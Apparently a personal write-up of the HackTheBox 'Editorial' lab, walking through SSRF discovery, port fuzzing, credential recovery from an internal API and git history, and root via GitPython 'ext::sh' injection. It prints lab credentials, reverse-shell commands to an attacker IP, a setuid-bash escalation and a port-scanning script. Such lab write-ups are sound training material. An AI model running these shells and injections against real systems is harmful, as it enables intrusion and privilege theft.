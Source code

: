 - nmap revealed http and tcp port.
	- http running nginx
- vi /etc/hosts to add editorial.htb
- tried dirbuster, dirsearch and gobuster but got nothing.
- we see a place for user input and on burp suite we catch the request.
	- can upload file but it does nothing (returns an image)
	- but we see a location to enter a url
		- so with entcat listening on a port we put our ip and port there
		- we get a response so we know it is vulnerable to server side request forgery (SSRF)
		- we enumerate the localhost port 80 to see if any local websites. we dont get much but we can brute force and check
		- send to intrude and select the IP region and use /usr/share/seclists/DNS/Discovery/Infrastructure/common http proxies wordlist.
		- we notice one response that is slightly different a returns something other than the image
		- alternatively (and also burp suite is slower for this brute force) we can use ffuf.
		- copy the request with the ip and the port number listed like this :
			```bash
127.0.0.1:FUZZ
```
		- and pass the command :
			```bash
ffuf -request ssrf.req -request-proto http -w <(seq 1 65535) -fr "jpeg" # or -fs 62 since that was the default size
```
	- we get a file which when passing file command we know its a JSON file. Can use jq to make it more readable
		```bash
cat <file_name> | jq .
```
	- this file shos different endpoints which we can try to access with our SSRF. We end up finding another file in this endpoint:
		```bash
/api/latest/metadata/messages/authors
```
	- so we added this url in our SSRF exploit :
		```bash
http://127.0.0.1:5000/api/latest/metadata/messages/authors
```
	- we receive a file:
		- we find the credentials of dev in the output
		```bash
Username: dev
Password: dev080217_devAPI!@
```
	- can ssh into machine with this credentials and get user flag.
## Lateral Movement
- looking at the file where user flag is we see a folder apps.
	- looking into it and passing ls -al we see a hidden .git repository
	- can enumerate with git
		```bash
git status # shows some files were deleted
git logs
```
	- alternatively I read the file logs and noted a "Downgrading prod to dev"
		- i also check /etc/passwd for prod and see he is a user.
		- furthermore since sudo -l didnt work maybe this prod user could have something we could run as root to get root access
	- pased git sho on the commit id in the log to see what was changed and from there we find prods credentials were deleted.
		```bash
Username: prod
Password: 080217_Producti0n_2023!@
```

- logging into prod with su, we check sudo -l to see there is a command we could run:
	```bash
/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```
	- we also see the env_reset and secure path has been set so the user is quite secure
- we read the file clone_prod_change.py:
	```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```
	- we see the intput argument to pass some command.
		- the main thing to catch is 
			```python
from git import Repo
```
	- on checking for exploits we find one with the following exploit:

	```python
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```
	- we see that when 'ext::sh -c' is passed we can  get some kind of RCE.
		- on passing this command as an argument we find that it created /tmp/pwned file showing that this is being exploited. I didn't do this but you can do to test.
		- we attempt to input our IP and port to get a reverse shell. 
			```bash
echo "bash -i >& /dev/tcp/10.10.14.25/9998 0>&1" >/tmp/pwned
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/pwned'
```
	- while i listened on the port
	- **alternatively you can pass the command directly instead of creating /tmp/pwned**
		```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% -c% "bash% -i% >&% /dev/tcp/10.10.14.25/9999% 0>&1"'
```
		- we input this command as exploit but add % wherever there is a space:
			```bash
ash -c 'bash -i >& /dev/tcp/<local_ip>/9998 0>&1'
```
	- **IPPSec Alternate**
	- we find the location of bash with which bash command and copy it to /tmp
	- we then use our exploit to give it root ownership and add a setuid bit so we can execute it.
		```bash
which bash #/usr/bin/bash
cp /usr/bin/bash /tmp
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chown% root:root% /tmp/bash'
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% 4755% /tmp/bash' # gives it the setuid bit
```
		- finally we privilege escalate with :
			```bash
/tmp/bash -p # without -p it won't give root shell as bash inbuilt security lowers privileges of setuid executables unless specified
```
	- we gain root access

-------
## Python code to brute force ports
- code:
	```python
#!/usr/bin/python3
import requests
with open("a", 'wb') as f:
f.write(b'')
for port in range(1, 65535):
with open("a", 'rb') as file:
data_post = {"bookurl": f"http://127.0.0.1:{port}"}
data_file = {"bookfile": file}
try:
r = requests.post("http://editorial.htb/upload-cover",
files=data_file, data=data_post)
if not r.text.strip().endswith('.jpeg'):
print(f"{port} --- {r.text}")
except requests.RequestException as e:
print(f"Error on port {port}: {e}")
```




